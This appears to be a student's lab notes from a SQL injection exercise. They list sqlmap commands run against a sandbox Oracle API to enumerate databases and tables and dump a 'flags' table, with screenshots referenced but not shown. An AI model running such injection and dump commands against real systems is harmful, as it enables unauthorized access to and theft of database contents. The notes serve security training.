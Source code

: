 ![[Pasted image 20240827190447.png]]
starting point
![[Pasted image 20240827172713.png]]
Spits out all information for the `SYSTEM` database
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=oracle&name=&sort=id&order=asc" -p "name,sort,order" --dbms=oracle --dump --flush-session
```

Getting all databases
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=oracle&name=&sort=id&order=asc" -p "name,sort,order" --dbms=oracle --dbs -D testing --flush-session
```
![[Pasted image 20240827185730.png]]
getting all tables in the `SQLMAP` database
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=oracle&name=&sort=id&order=asc" -p "name,sort,order" --dbms=oracle -D sqlmap --tables
```
![[Pasted image 20240827190017.png]]
getting all the columins in the `flags` table
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=oracle&name=&sort=id&order=asc" -p "name,sort,order" --dbms=oracle -D sqlmap -T flags --dump --flush-session 
```
![[Pasted image 20240827190244.png]]